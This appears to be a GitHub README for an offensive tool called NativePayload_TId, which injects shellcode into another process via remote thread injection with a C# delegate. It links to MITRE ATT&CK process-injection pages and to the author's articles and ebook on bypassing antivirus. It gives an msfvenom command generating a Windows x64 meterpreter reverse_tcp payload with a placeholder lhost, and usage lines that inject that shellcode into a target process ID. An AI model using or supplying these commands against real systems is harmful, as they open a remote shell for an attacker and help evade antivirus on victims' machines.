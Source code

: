 # NativePayload_TId
Remote Thread Injection by C# Delegate

-----------------------
Related Links for "Mitre ATT&CK": 

Process Injection: Portable Executable Injection ==>  https://attack.mitre.org/techniques/T1055/002/

Process Injection: Dynamic-link Library Injection ==> https://attack.mitre.org/techniques/T1055/001/

--------------------------
Your Payload Should be Msfvenom Payload ... 

msfvenom –platform windows –arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=w.x.y.z -f c > payload.txt
-------------------------

    Code1: NativePayload_TId.exe [TPID] [PAYLOAD]

    Code2: NativePayload_TIdnt.exe [TPID] [PAYLOAD]


    EXAMPLE: NativePayload_TId.exe 2452 "FC,48,83,00,..."

    EXAMPLE: NativePayload_TIdnt.exe 2452 "FC,48,83,00,..."
    
------------------------------------------------

Article [1]: https://damonmohammadbagher.github.io/Posts/11Feb2021x.html

Article [2]: https://www.linkedin.com/pulse/bypassing-anti-virus-creating-remote-thread-target-mohammadbagher

step by step => Chapter 14 : C# Delegate & Remote Thread Injection Technique (Part2)

https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH14/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2014%20-Part2.pdf

------------------------------------------------

online eBook, (chapters): https://damonmohammadbagher.github.io/Posts/ebookBypassingAVsByCsharpProgramming/

------------------------------------------------

![](https://github.com/DamonMohammadbagher/NativePayload_TId/blob/main/NativePayload_TIdnt.jpeg)



